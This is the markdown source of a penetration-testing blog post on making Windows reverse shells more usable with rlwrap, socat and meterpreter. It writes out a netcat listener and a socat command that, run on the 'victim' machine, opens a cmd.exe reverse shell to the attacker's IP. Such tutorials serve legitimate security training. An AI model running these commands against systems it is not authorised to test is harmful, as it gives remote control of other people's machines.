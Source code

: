 ```yaml
---
description: >-
  How to upgrade a Windows reverse shell to a fully usable TTY-type shell
title: Upgrade a Windows reverse shell to a fully usable shell                    # Add title of the machine here
date: 2021-05-01 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, windows, socat, meterpreter]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells (Windows machines)

In a [previous article](https://zweilosec.github.io/posts/upgrade-linux-shell/) I wrote about upgrading limited Linux shells to a fully usable TTY shell.  Usually, after catching a reverse shell from a Windows machine through netcat you already have a shell that has full functionality. However, on occasion your shell is limited in some ways that can be truly annoying.  The features I miss the most are command history (and using the 'up' and 'down' arrows to cycle through them) and tab autocompletion.  It can feel quite disorienting working in a shell that is missing these vital features.
 
Options for upgrading Windows reverse shells are more limited than they are coming from a Linux machine.  

## rlwrap

You can mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed in Kali Linux by default so you will need to install it using the command `sudo apt install rlwrap -y`.  Other distributions may or may not have this installed or available in their package manager.

```bash
rlwrap nc -lvnp $port
```

Start your netcat listener by first prefixing it with the `rlwrap` command, then specifying the port to listen on.  Your shell will automatically be a bit more stable than running netcat by itself.

## socat 

Another powerful tool that can be used to get functional shells, do port forwarding, and much more is [`socat`](http://www.dest-unreach.org/socat/).  (Windows version: [https://github.com/3ndG4me/socat](https://github.com/3ndG4me/socat))

1. From your attack platform create a listener

```bash
socat TCP4-LISTEN:$port,fork STDOUT
```

2. Upload to or compile `socat.exe` on the Windows victim machine.

3. On the Windows victim create the reverse shell back to your waiting listener.

```bash
socat.exe TCP4:$ip:$port EXEC:'cmd.exe',pipes
```

## meterpreter

Another method of upgrading the functionality of a Windows reverse shell that I know is to create a reverse shell payload that calls a `meterpreter` interactive shell.  This shell interacts with the Metasploit Framework to provide additional functionality such as uploading and downloading files, attempting to elevate privileges to System, and more.

## Other Examples

If you have any other examples of methods of upgrading Windows reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or in the comments below!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>